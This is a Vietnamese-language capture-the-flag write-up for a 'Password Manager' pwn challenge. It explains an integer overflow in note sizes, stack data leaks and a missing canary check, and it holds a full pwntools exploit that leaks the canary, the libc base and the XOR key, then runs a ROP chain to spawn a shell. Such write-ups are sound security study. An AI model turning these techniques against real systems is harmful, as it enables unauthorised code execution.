



# Password Manager

```
Name: Password Manager
Points: 1000

Description:
'cause I have a hundred of credentials and I cannot remember them by my own, I decided to make this program and make it online to help me access those credentials everywhere. Could you verify that this program is unexploitable?

`nc 103.162.14.116 10002`
```

## Phân tích

```
*(_QWORD *)&note_size[a1] = s;
.bss:0000000000005070 ; int note_size[4]
.bss:0000000000005070 note_size       dd 4 dup(?)
```

- Ta có bug iof khi mà nếu t nhập size > 4 byte thì có thể ow size của index tiếp theo

```c
    if ( v6[0] == 'y' )
    {
      ...
      memcpy(&note[256 * (__int64)v4], s, note_size[v4]);
      puts("Done!");
```

- Thứ 2, ta có thể leak các dữ liệu trong stack khi mà chương trình copy từ stack vào note mà phụ thuộc vào size lúc khai báo chứ không phụ thuộc vào số lượng byte trong data mình nhập. Nghĩa là nếu khai báo 0x50 nhưng data mình nhập chỉ là 0x10 byte thì 0x40 byte trong stack sẽ được copy vào note => leak được địa chỉ base

- Thứ 3 là khi encrypt data, chương trình thực hiện xor với key nên ta cần leak key

- Thứ 4 là trong hàm `lock_n_lock` có một đoạn không check_canary khi decrypt data cùng với iof size idx ta có bof, nên mục tiêu ta sẽ ROPchain ở hàm `lock_n_lock`

```c
else
  {
    for ( k = 0; k < note_size[a1]; ++k )
      s[k] = key[k % 8] ^ note[256 * (__int64)a1 + k];
    memcpy(&note[256 * (__int64)a1], s, note_size[a1]);
  }
```

## Khai thác

### Chuẩn bị

```python
def create(idx, size, data):
    sla(b"> ", "1")
    sla(b": ", str(idx))
    sla(b": ", str(size))
    sa(b": ", data)


def edit(idx, data, option):
    sla(b"> ", "2")
    sla(b": ", str(idx))
    sa(b"New data: ", data)
    sla(b": ", option)


def delete(idx, option):
    sla(b"> ", "3")
    sla(b": ", str(idx))
    sla(b"]: ", option)


def encrypt():
    sla(b"> ", "4")
```

### Leak canary hàm lock_n_lock

```python
create(0, 0x100, b"\n")
create(1, 0x100, b"\n")
create(2, 0x79, b"\n")
create(3, 0x100, b"\n")

delete(0, "y")
create(0, 0x0000030000000100, b"\n")

edit(1, b"\n", "y")
edit(2, b"a" * 0x79, "y")
sla(b"> ", "2")
sla(b": ", str(2))
p.recvuntil(b"a" * 0x78)
canary = u64(p.recv(8)) - 0x61
sa(b"New data: ", b"a")
sla(b": ", b"n")
info("Canary: " + hex(canary))
```

- Như phân tích ở trên có bug iof nên mình ow size idx 1 và dùng idx 2 để leak, tuy nhiên ban đầu size idx 2 là 0x100 thì khi debug mình thấy như này
  
- Canary của mình đã bị ghi đè
- Sau một lúc suy nghĩ thì mình thấy mảng s trong stack được memset nullbyte, và khi memcpy thì nó memcpy theo size và bị thừa các nullbyte, nên ta mình thấy mình chỉ cần chương trình memcpy 0x79 byte vừa đủ để ghi đè nullbyte trong canary nên đó là lý do size idx 2 là 0x79

### Leak libc

```python
delete(2, "y")
create(2, 0x78 + 0x10, b"\n")
edit(2, b"a" * 0x88, "y")
sla(b"> ", "2")
sla(b": ", str(2))
p.recvuntil(b"a" * 0x88)
libc.address = u64(p.recv(6).ljust(8, b"\0")) - 0x29D90
sa(b"New data: ", b"a")
sla(b": ", b"n")
info("Libc: " + hex(libc.address))
```

- Giống như leak canary

### Leak key

```python
delete(0, "y")
create(0, 0x0000001000000100, b"\n")
encrypt()
delete(0, "y")
create(0, 0x0000000800000100, b"\n")
edit(1, b"a" * 8, "y")

sla(b"> ", "2")
sla(b": ", str(1))
p.recvuntil(b"a" * 8)
key = u64(p.recv(8))
sa(b"New data: ", b"a")
sla(b": ", b"n")
info("key: " + hex(key))
```

- Ở đây khá giống với leak libc và stack, đầu tiên mình ow size chunk 1 là 0x10 để khi encrypt nó cho mình 2 cái key (key ^ 0 = key). Tuy nhiên nếu in ra ngay thì key của mình sẽ bị decrypt (key ^ key = 0)
- Như ở trên mình sửa size idx 1 = 0x8 để chương trình xoá 1 key đầu và mình thay bằng 8 byte a. Khi in ra thì key không bị decrypt `aaaaaaaakey`

### ROPgadget

```python
delete(0, "y")
delete(1, "y")

rop = ROP(libc)
payload = flat(
    0,
    canary,
    0,
    rop.find_gadget(["ret"]).address,
    rop.find_gadget(["pop rdi", "ret"]).address,
    next(libc.search(b"/bin/sh\0")),
    libc.sym.system,
)

edit(2, payload, "y")
create(0, 0x0000014000000100, b"\n")
sla(b"> ", "2")
sla(b": ", str(1))
```

```c
for ( k = 0; k < note_size[a1]; ++k )
    s[k] = key[k % 8] ^ note[256 * (__int64)a1 + k];
memcpy(&note[256 * (__int64)a1], s, note_size[a1]);
```

- Lý do tại sao mình đặt payload ở idx 2 vì khi chương trình decrypt hết 0x100 byte của idx 1 thì nó sẽ lấy data của idx 2 và tiếp tục decrypt và mình đã bof

### Kết quả




```python
#!/usr/bin/python3

from pwn import *

exe = ELF("passwordmanager", checksec=False)
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")
context.binary = exe


def GDB():
    if not args.REMOTE:
        gdb.attach(
            p,
            gdbscript="""
                b*lock_n_lock+679

                c
                """,
        )
        input()


info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
    p = remote("")
else:
    p = process(exe.path)


def create(idx, size, data):
    sla(b"> ", "1")
    sla(b": ", str(idx))
    sla(b": ", str(size))
    sa(b": ", data)


def edit(idx, data, option):
    sla(b"> ", "2")
    sla(b": ", str(idx))
    sa(b"New data: ", data)
    sla(b": ", option)


def delete(idx, option):
    sla(b"> ", "3")
    sla(b": ", str(idx))
    sla(b"]: ", option)


def encrypt():
    sla(b"> ", "4")


# 0x0000010000000100
create(0, 0x100, b"\n")
create(1, 0x100, b"\n")
create(2, 0x79, b"\n")
create(3, 0x100, b"\n")

delete(0, "y")
create(0, 0x0000030000000100, b"\n")

edit(1, b"\n", "y")
edit(2, b"a" * 0x79, "y")
sla(b"> ", "2")
sla(b": ", str(2))
p.recvuntil(b"a" * 0x78)
canary = u64(p.recv(8)) - 0x61
sa(b"New data: ", b"a")
sla(b": ", b"n")
info("Canary: " + hex(canary))

delete(2, "y")
create(2, 0x78 + 0x10, b"\n")
edit(2, b"a" * 0x88, "y")
sla(b"> ", "2")
sla(b": ", str(2))
p.recvuntil(b"a" * 0x88)
libc.address = u64(p.recv(6).ljust(8, b"\0")) - 0x29D90
sa(b"New data: ", b"a")
sla(b": ", b"n")
info("Libc: " + hex(libc.address))


delete(0, "y")
create(0, 0x0000001000000100, b"\n")
encrypt()
delete(0, "y")
create(0, 0x0000000800000100, b"\n")
edit(1, b"a" * 8, "y")

sla(b"> ", "2")
sla(b": ", str(1))
p.recvuntil(b"a" * 8)
key = u64(p.recv(8))
sa(b"New data: ", b"a")
sla(b": ", b"n")
info("key: " + hex(key))

delete(0, "y")
delete(1, "y")

rop = ROP(libc)
payload = flat(
    0,
    canary,
    0,
    rop.find_gadget(["ret"]).address,
    rop.find_gadget(["pop rdi", "ret"]).address,
    next(libc.search(b"/bin/sh\0")),
    libc.sym.system,
)
edit(2, payload, "y")
create(0, 0x0000014000000100, b"\n")
sla(b"> ", "2")
GDB()
sla(b": ", str(1))


p.interactive()

```
